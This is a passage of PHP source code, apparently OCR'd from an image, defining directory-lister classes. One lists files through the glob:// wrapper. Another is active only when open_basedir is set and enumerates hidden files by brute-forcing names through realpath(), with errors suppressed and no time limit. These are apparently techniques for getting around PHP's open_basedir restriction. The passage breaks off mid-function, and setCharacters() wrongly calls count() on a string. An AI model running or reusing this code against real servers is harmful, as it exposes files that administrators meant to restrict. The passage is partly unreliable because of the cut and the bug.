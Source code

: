 ```php
	function getDescription() {
		return 'Directory listing via glob pattern';
	}
	function getFileList() {
		$file_list = array();
		// normal files
		$it = new DirectoryIterator("glob://{$this->getCurrentPath()}*");
		foreach ($it as $f) {
			$file_list[] = $f->__toString();
		}
		// special files (starting with a dot(.))
		$it = new DirectoryIterator("glob://{$this->getCurrentPath()}.*");
		foreach ($it as $f) {
			$file_list[] = $f->__toString();
		}
		sort($file_list);
		return $file_list;
	}
}

class RealpathBruteForceDirectoryLister extends DirectoryLister {
	var $characters = 'abcdefghijklmnopqrstuvwxyz0123456789-_'
	, $extension = array()
	, $charactersLength = 38
	, $maxlength = 3
	, $fileList = array();

	function isAvailable() {
		return ini_get('open_basedir') && function_exists('realpath');
	}
	function getDescription() {
		return 'Directory listing via brute force searching with realpath function.';
	}
	function setCharacters($characters) {
		$this->characters = $characters;
		$this->charactersLength = count($characters);
	}
	function setExtension($extension) {
		$this->extension = $extension;
	}
	function setMaxlength($maxlength) {
		$this->maxlength = $maxlength;
	}
	function getFileList() {
		set_time_limit(0);
		set_error_handler(array(__CLASS__, 'handler'));
		$number_set = array();
		while (count($number_set = $this->nextCombination($number_set, 0)) <= $this->maxlength) {
			$this->searchFile($number_set);
		}
		sort($this->fileList);
		return $this->fileList;
	}
	function nextCombination($number_set, $length) {
		if (!isset($number_set[$length])) {
			$number_set[$length] = 0;
			return $number_set;
		}
		if ($number_set[$length] + 1 === $this->charactersLength) {
			$number_set[$length] = 0;
			$number_set = $this->nextCombination($number_set, $length + 1);
		} else {
			$number_set[$length]++;
```
